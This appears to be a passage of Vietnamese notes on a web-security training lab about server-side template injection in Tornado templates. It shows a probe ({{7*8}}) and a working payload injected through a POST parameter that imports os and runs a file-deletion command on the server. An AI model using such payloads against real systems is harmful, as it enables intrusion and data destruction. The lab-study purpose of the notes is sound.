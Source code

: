 - Test lỗi ssti ở req POST thay đổi preferred name: 

`blog-post-author-display=user.name}}{{7*8}}`

![image-20250704005432433](./image/image-20250704005432433.png)

Kết quả hiển thị ở trang blog ==> đã thực thi thành công payload python, chtr có lỗi ssti

- Trong Tornado template, cho phép thực thi python code bằng: `{% somePython %}`

```python
{% import os %}
{{os.system('rm /home/carlos/morale.txt')}}
```

- Inject payload vào req POST: 

```
blog-post-author-display=user.name}}{% import os %}{{os.system('rm /home/carlos/morale.txt')}}
```

![image-20250704010446550](./image/image-20250704010446550.png)

### Lab 3: Server-side template injection using documentation

Lab des: 

Ứng dụng có chứa lỗ hổng SSTI, mục tiêu là nhận diện engine template đang được sử dụng và khai thác lỗ hổng này, thực thi lệnh hệ thống: xóa file `/home/carlos/morale.txt`
